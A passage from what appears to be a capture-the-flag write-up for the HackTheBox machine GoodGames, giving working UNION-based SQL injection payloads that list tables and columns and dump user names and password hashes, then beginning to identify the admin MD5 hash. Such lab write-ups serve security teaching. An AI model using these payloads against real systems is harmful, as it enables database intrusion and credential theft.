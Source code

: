 ```sql
' union select 1,2,3, group_concat(table_name) FROM information_schema.tables where table_schema = "main"#
```

![](/assets/obsidian/fc21c0fd55e044c0116c7c57b61e6f81.png)


### Get Columns from user table 

```sql
' union select 1,2,3, group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'main' and table_name = 'user'#
```

![](/assets/obsidian/658582502bb5ecd969cb7337ffe61c11.png)


### Dump data from user table

```sql
' union select 1,2,3, group_concat(name,":",password) FROM main.user#
```

![](/assets/obsidian/af2b985c24b349e5a70cbfcf6203d230.png)

> `admin`:`2b22337f218b2d82dfc3b6f77e7cb8ec`


## Recover the md5 hash of admin

It have 32 characters, assume it's md5

```bash
┌──(bravosec㉿fsociety)-[~/htb/GoodGames]
└─$ echo -n '2b22337f218b2d82dfc3b6f77e7cb8ec'|wc -c
32
```
